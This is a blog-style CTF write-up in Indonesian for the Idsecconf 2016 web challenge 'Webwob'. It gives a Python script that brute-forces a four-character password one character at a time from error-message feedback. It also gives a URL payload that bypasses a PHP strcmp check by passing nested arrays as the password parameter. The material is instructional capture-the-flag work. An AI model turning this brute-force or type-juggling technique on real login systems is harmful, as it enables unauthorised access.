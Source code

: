 ```yaml
---
layout: post
title: "Idsecconf CTF 2016 : Webwob - 100"
description: "Idsecconf CTF 2016 Online"
headline: 
modified: 2016-08-29
date: 2016-08-29
category: ctf
tags: [idsecconf,Web Exploitation]
imagefeature: /images/idsecconf.jpg
mathjax: 
chart: 
comments: true
featured: false
---
```


### Problem :

`http://128.199.96.39/`

### Solusi :

Kita di berikan website dengan di tampilkan source code nya dan terlihat jelas flag akan muncul ketika
variable `$ok` bernilai `True`. 

pertama saya mencoba memasukan parameter password 4x seperti ini
`http://128.199.96.39/?password[]=awd&password[]=awd&password[]=awd&password[]=awd`
namun tidak berhasil.

kemudian karena kita mengetahui panjang karakter password hanya 4 maka kita buat script untuk bruteforce

```python
import mechanize
import itertools
import string

br = mechanize.Browser()
url = "http://128.199.96.39/?password={0}{1}{2}{3}"
response = br.open(url)

cnt = 0
pat = "invalid {}Invalid"
acc = string.ascii_letters + "0123456789!@#$%^{}()[]"
combinations = itertools.permutations(acc,cnt+1)
res = ""
a = "x"
b = "x"
c = "x"
d = "x"
bb = "x"
cc = "x"
dd = "x"

while True:
    combinations = itertools.permutations(acc,1)
    for x in combinations:
        x = "".join(x)
        if a == "x":
            aa = x
        elif b == "x":
            bb = x
        elif c == "x":
            cc = x
        elif d == "x":
            dd = x
            
        response = br.open(url.format(aa,bb,cc,dd))
        #print url.format(aa,bb,cc,dd)
        cek = response.read().split("<")[0]
        #sprint cek
        if "flag" in cek:
            print cek
            break
        #print x
        
        if pat.format(cnt+1) in cek:
            cnt += 1
            if a == "x":
                a = x
            elif b == "x":
                b = x
            elif c == "x":
                c = x
            elif d == "x":
                d = x
            #print x
```

![Webwob Flag](/images/webwob_flag.png)

scriptnya agak berantakan disitu tujuan kita untuk dapat flagnya tapi :D

setelah membaca writeup dari [Cyber Security IPB](https://drive.google.com/drive/folders/0B73v7q0VGLSEWlRUbU96YXlsNU0) ternyata cara bypass vulnerability Strcmp di sini adalah seperti ini 
`http://128.199.96.39/?password[][]=&password[][]=&password[][]=&password[][]=`
karena input kita awalnya adalah array karena di dalam script melakukan pengecekan 
berdasarkan tiap index maka jika tiap index yang akan di cek adalah array maka akan
membuahkan hasil True.
